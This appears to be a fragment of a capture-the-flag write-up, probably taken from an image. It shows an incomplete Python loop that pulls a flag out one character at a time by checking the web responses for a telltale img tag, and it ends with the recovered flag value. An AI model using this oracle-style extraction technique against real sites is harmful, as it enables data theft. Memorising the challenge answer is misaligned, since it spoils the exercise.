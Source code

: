 ```python
		response = requests.get(url, headers=headers, params=params)
	# print(response.text)
		if '<img id="customImage" src="" loading="lazy"/>' in response.text:
			flag = flag + str(i)
			print(f"Flag is now: {flag}")

# Flag is now: W1{725238659297
```

Flag: 
	W1{725238659297}






